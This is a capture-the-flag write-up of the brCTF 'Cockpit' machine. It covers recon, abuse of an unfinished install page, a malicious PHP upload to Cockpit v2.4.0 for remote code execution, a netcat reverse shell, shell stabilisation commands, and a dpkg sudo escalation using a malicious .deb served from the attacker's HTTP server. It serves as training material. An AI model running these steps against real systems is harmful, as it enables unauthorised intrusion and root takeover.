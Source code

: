 # Cockpit Machine from brCTF

## Information Gathering/Reconnaissance
As usual we fire up our favorite network mapper (nmap) and perform some basic recon. We can see that we have only port 80 (http) open.
`nmap -sC -sV -oN cockpit.nmap 10.0.160.145`
```
Nmap scan report for 10.0.160.145
Host is up (0.24s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-title: Cockpit
|_Requested resource was /auth/login?to=%2F

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second stage of out recon we checkout the application running on port `80` from our browser. <br>
We are greeted with a homepage.... interesting!
![Cockpit Homepage](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/homepage.png "a title")

Next we try to find out what other pages are available on our target. We employ the servies of our directory bruteforcing tool (feroxbuster) or an other webfuzzer. <br>
`feroxbuster -u http://10.0.160.145 -w /raft-medium-wordlists.txt`
```
302      GET        0l        0w        0c http://10.0.160.145/ => http://10.0.160.145/auth/login?to=%2F
302      GET        0l        0w        0c http://10.0.160.145/system => http://10.0.160.145/auth/login?to=%2Fsystem
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^
302      GET        0l        0w        0c http://10.0.160.145/?????? => http://10.0.160.145/auth/login?to=%2F%3F%253F%253F%253F%253F%253F%3D
400      GET        7l       11w      157c http://10.0.160.145/100%sexy
400      GET        7l       11w      157c http://10.0.160.145/100%angel
400      GET        7l       11w      157c http://10.0.160.145/100%bitch
400      GET        7l       11w      157c http://10.0.160.145/100%me
400      GET        7l       11w      157c http://10.0.160.145/100%cute
400      GET        7l       11w      157c http://10.0.160.145/100%love
400      GET        7l       11w      157c http://10.0.160.145/!%22%C2%A3$%^&*()
302      GET        0l        0w        0c http://10.0.160.145/content => http://10.0.160.145/auth/login?to=%2Fcontent
400      GET        7l       11w      157c http://10.0.160.145/100%cool
301      GET        7l       11w      169c http://10.0.160.145/install => http://10.0.160.145/install/
404      GET        0l        0w        0c http://10.0.160.145/austin101
```

## Exploitation
Something interesting the results above. We find a `/install` endpoint. <br>
After visiting this page in the browser we realized that the system administrator setup cockpit application without fully installing. Nice! we can abuse this. <br> After visiting this endpoint cockpit will be installed and will setup an account with default logins.
![Cockpit Install Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/install_the_software.png "a title")

Using the default logins obtained on installation we can login to the cockpit application.
![Cockpit Login Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/login_with_default_creds.png "a title")

Successful Login attempt and we a greeted with the application dashboard. From there we can do a little recon to find out the version of cockpit running. From the image below, `cockpit v2.4.0` is found to be running.
![Cockpit Dashboard Page](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/cockpit_version_info.png "a title")

As a hacker google should be one of your cherished tools. Using the google search engine we can search for publicly available exploit for `cockpit v2.4.0`. <br> We find a publicly disclosed exploitation process [here](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
![Public Exploit](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/google_vuln.png "a title")

From the steps provided on the [website](https://huntr.dev/bounties/f73eef49-004f-4b3b-9717-90525e65ba61/).
1. We must first craft out malicious php script.
![exploit code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exploit_code.png "a title")

2. Head over to the assest page on cockpit and upload our malicious php script.
![uploading asset](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_upload.png "a title")
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/uploading_php_script.png "a title")

3. Click on the options icons after fully uploding the asset and select `copy asset link` from the popup.
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/asset_options.png "a title")

4. Open a new browser tab and paste the link there. Hold up! one last thing to do before execution. After pasting the link remove `/http:` from the url and now you can execute.

Finally! we now have RCE on the target and we can get a shell on netcat.<br>
We first start by running our netcat listener.
`nc -lnvp 8989`
![uploading php script](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/listening_on_netcat.png "a title")

Now we can send execute command on our malicious php web page to get a shell on our listener.<br>
![netcat payload shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/netcat_payload.png)

Boom we get a connection on our listener.
![netcat rev shell](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/recieved_nc_connection.png)

## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

## Privilege Escalation
We first check our privileges.
`sudo -l`
![PE vector](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/priv_escalation.png)

Doing a search on for dpkg on [gtfobins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)
![gfobins](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/gtfobins_privesc.png)

Now the way this is going to work is that we would build a malcious debian package and then we try installing the package which will run our malicious code embedded in the package.<br>
Steps to building malicious package.
1. Install fpm: `sudo apt install ruby && sudo gem install fpm`
2. Build package with fpm: ```TF=$(mktemp -d) &&
echo 'exec /bin/sh' > $TF/x.sh &&
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF```
![mal deb package](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/creating_mal_packgae.png)

We now have our malicious package on our host and we can now transfer to our target.<br>
Start your python server: `python3 -m http.server 8000`
![python transfer](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/python_server_for_mal_package.png)

Download the malicious package on your target.<br>
NB: Make sure you are in a writable directory like `/tmp`. <br>

![python transfer download](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/downloading_mal_package_from_attacker_server.png) 

Now we can execute and get root access.<br>
![execute code](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/exec_command_priv_root.png)<br>
We are now root!!! :smiley: <br>
![iamroot](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/i_am_root.png)